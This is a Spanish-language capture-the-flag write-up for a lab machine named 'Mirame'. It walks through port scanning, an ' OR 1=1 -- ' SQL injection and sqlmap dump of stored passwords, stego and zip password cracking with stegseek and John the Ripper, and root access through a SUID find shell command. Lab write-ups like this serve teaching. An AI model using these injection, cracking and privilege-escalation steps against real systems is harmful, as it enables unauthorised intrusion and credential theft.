


❄️ Máquina: Mirame
📅 Publicado el 11/09/2025 | Categoría: LINUX
📝 Descripción
Reto en el cual tendremos que hacer un aqlinjecion en un login, decifrar que contiene una imagen, extraer el archivo que contenia,
descifrar la contraseña para mostrar su contenido y finalizar con una
escalada de privilegios a root.
🔍 Reconocimiento
sudo nmap -p- -open -O -sS -sCV -min-rate 5000 -n -Pn 172.17.0.2
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
| 256 2c:ea:4a:d7:b4:c3:d4:e2:65:29:6c:12:c4:58:c9:49 (ECDSA)
|_ 256 a7:a4:a4:2e:3b:c6:0a:e4:ec:bd:46:84:68:02:5d:30 (ED25519)
80/tcp open http Apache httpd 2.4.61 ((Debian))
|_http-title: Login Page
|_http-server-header: Apache/2.4.61 (Debian)
🌐 Enumeración Web
gobuster dir -u http://172.17.0.2/
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
/page.php (Status: 200) [Size: 2169]
/index.php (Status: 200) [Size: 2351]
/auth.php (Status: 200) [Size: 1852]
El directorio /auth.php nos importa.
Ingresando ' OR 1=1 -- ' vemos que si podremos realizar el SQLinjecion
Con bursuit podemos capturar la peticion para poder usarla con sqlmap
Eata petición la guarde en log.txt
sqlmap -r log.txt --batch --random-agent --dbs
available databases [2]:
[*] information_schema
[*] users
sqlmap -r log.txt --batch --random-agent -D users --tables
Database: users
[1 table]
+----------+
| usuarios |
+----------+
❯ sqlmap -r log.txt --batch --random-agent -D users -T usuarios --columns
Database: users
Table: usuarios
[3 columns]
+----------+--------------+
| Column | Type |
+----------+--------------+
| id | int(11) |
| password | varchar(255) |
| username | varchar(50) |
+----------+--------------+
sqlmap -r log.txt --batch --random-agent -D users -T usuarios -C password,username --dump
Database: users
Table: usuarios
[4 entries]
+------------------------+------------+
| password | username |
+------------------------+------------+
| chocolateadministrador | admin |
| directoriotravieso | directorio |
| lucas | lucas |
| soyagustin123 | agustin |
+------------------------+------------+
Nos dirigimos a directoriotravieso y encontramos:
nos descargamos dicho archivo y lo investigamos. revisamos los metadatos con exiftool y no muestran nada oculto aparte de la información básica del archivo, entonces usamos una herramienta de esteganografía.
steghide extract -sf miramebien.jpg
Enter passphrase:
steghide: could not extract any data with that passphrase!
❯ stegseek miramebien.jpg /usr/share/wordlists/rockyou.txt
[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".
❯ steghide extract -sf miramebien.jpg
Enter passphrase:
wrote extracted data to "ocultito.zip".
❯ unzip ocultito.zip
Archive: ocultito.zip
[ocultito.zip] secret.txt password:
Nos damos cuenta que tiene un archivo pero este becesita contraseña, la desciframos y ahora el archivo ocultito.zip tambien necesita contraseña y la encontramos con Johntheripper
zip2john ocultito.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stupid1 (ocultito.zip/secret.txt)
1g 0:00:00:00 DONE (2025-09-10 21:59) 10.00g/s 40960p/s 40960c/s 40960C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
john --show hash.txt
ocultito.zip/secret.txt:stupid1:secret.txt:ocultito.zip::ocultito.zip
Ya con la contraseña lo descomprimimos y el archivo secret.txt contiene:
cat secret.txt
carlos:carlitos
Con esto entramos al ssh
👑 Escalada a root
Miramos los premisos SUID
www-data@812b6b56379f:/$ find / \-perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/find
/usr/bin/mount
/usr/bin/chsh
/usr/bin/sudo
El binario find con SUID se puede abusar fácilmente para obtener una shell como root
carlos@7c89ee9d45d8:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
Entonces:
# whoami
root
🏁 Resultado
Acceso total a la máquina con privilegios de root